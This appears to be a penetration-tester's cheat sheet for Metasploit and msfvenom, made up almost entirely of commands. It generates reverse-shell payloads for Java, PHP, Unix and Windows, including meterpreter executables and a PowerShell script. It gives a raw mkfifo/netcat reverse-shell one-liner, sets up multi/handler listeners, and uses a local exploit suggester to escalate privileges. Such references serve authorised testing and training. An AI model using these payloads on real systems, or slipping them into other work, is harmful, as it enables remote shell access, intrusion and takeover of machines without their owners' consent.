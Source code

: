 
MSFConsole
---
```
search $TARGET_SERVICE
# search type:exploit
use X
options
set LHOST
set RHOST
exploit
shell
background
```

See payload options:

```bash
msfvenom -p java/jsp_shell_reverse_tcp --list-options
```

Create payload:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LOCAL_IP LPORT=4444 -f war > runme.war
```

Create bash reverse shell line:

```bash
msfvenom -p cmd/unix/reverse_netcat RHOST=tun0 RPORT=4444 R
```

```bash
mkfifo /tmp/ipvquh; nc $LOCAL_IP 4444 0</tmp/ipvquh | /bin/sh >/tmp/ipvquh 2>&1; rm /tmp/ipvquh
```

Create reverse shell payload, exploit user and escalate to admin:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows LHOST=$LOCAL_IP LPORT=4444 -f exe -o shell.exe
#powershell rev shell generator
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$TARGET_IP$ LPORT=4444 -f psh -o meterpreter-64.ps1
```

Stageless shell for nc:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe > shell-x86.exe
```

```bash
msfconsole -q -x "load auto_add_route; use socks_proxy;run -j;use payload/windows/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 443; generate -f exe -o met.exe; to_handler"
```

Non-staged PHP reverse shell, netcat compatible

#msfvenom #revshell #php-shell

```bash
msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -f raw -o shell.pHP
```

```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=tun0 LPORT=443 -f exe -o shell.exe
msfconsole
use multi/handler
set payload windows/x64/meterpreter_reverse_https
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter_reverse_https;set LHOST tun0;set LPORT 443;run;"
```
the forward slash indicates that is a "staged" payload, the one with the underscore means it’s non-staged and can be handled by program like nc

```msfconsole
use windows/x64/meterpreter/reverse_tcp
use windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
exploit
use post/multi/recon/local_exploit_suggester
set session 1
exploit
#don't forget to set new handler to tun0 and new port
```

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows LHOST=tun0 LPORT=443 -f exe -o shell.exe
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $LOCAL_IP;set LPORT 443;run;" 
```